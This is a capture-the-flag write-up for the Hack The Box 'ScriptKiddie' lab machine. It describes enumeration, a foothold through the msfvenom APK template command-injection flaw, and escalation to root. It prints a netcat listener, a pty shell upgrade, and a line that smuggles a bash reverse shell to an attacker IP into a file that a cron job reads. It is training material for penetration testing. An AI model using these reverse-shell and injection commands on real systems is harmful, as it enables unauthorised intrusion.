 # ScriptKiddie
### Machine Maker(s): [0xdf](https://www.hackthebox.eu/home/users/profile/4935)

#### Info :
``` 
OS          : Linux
Difficulty  : Easy
Points      : 20
Release     : 06 Feb 2021
IP          : 10.10.10.226
```
---
### Enumeration

Scanning the ip address we find an open **SSH** port and a web-page hosted on port 5000         
![](images/nmap.png)

I tried running dirbuster in hopes of finding a directory for uploads of the template file but it was in vain.       

I checked the sourcecode couldn't find much of anything there, checked for filters in the input, checked for js files but none of them were linked in the sourcecode. 

After lurking in the Official forum for sometime they were talking about metasploit a lot but I didn't understand why. Then I read the payloads section again, it must be something related to template file upload and msfvenom, so i started googling.

### Foothold

I found a **command injection vulnerability** in msfvenom payload generator when using a crafted APK file as a Android payload template.

After looking up in different sites I found how to reproduce it in the Official Metasploit [repo](https://github.com/rapid7/metasploit-framework/pull/14331)

Following the instructions there I was able to generate an apk file using msfconsole.
![](images/poc.png)     
Fire up a netcat listener for the reverse shell      
```bash
$ nc -lvnp port
```
and enter your LHOST and upload your apk file onto the target site.

We got a reverse shell.         
Use this to get a python interactive shell
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Privilege Escalation                

After lurking around we find another user **pwn** who has a cronjob running so we try to get a horizontal privilege escalation.

The scanloser.sh file doesn't have write permissions for user kid **kid**.      
Looks like hackers is being run everytime scanlosers.sh runs so we try to write into that, **kid** has permissions to write into it.        

So we try to write a bash reverse shell.        
use the following command to echo the bash shell into hackers
```bash
echo "         ; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'  #" >> hackers
```
Don't forget to fire up another netcat listener for this as well.

We get the shell for the user pwn       
Let's check the user permissions for this user
```bash
$ sudo -l
```
We can run /opt/metasploit-framework-6.0.9/msfconsole without password as root

Lets fire up msfconsole and check the root.txt from there.
```bash
msf6 > cat /root/root.txt
```

Voila! We have the root flag.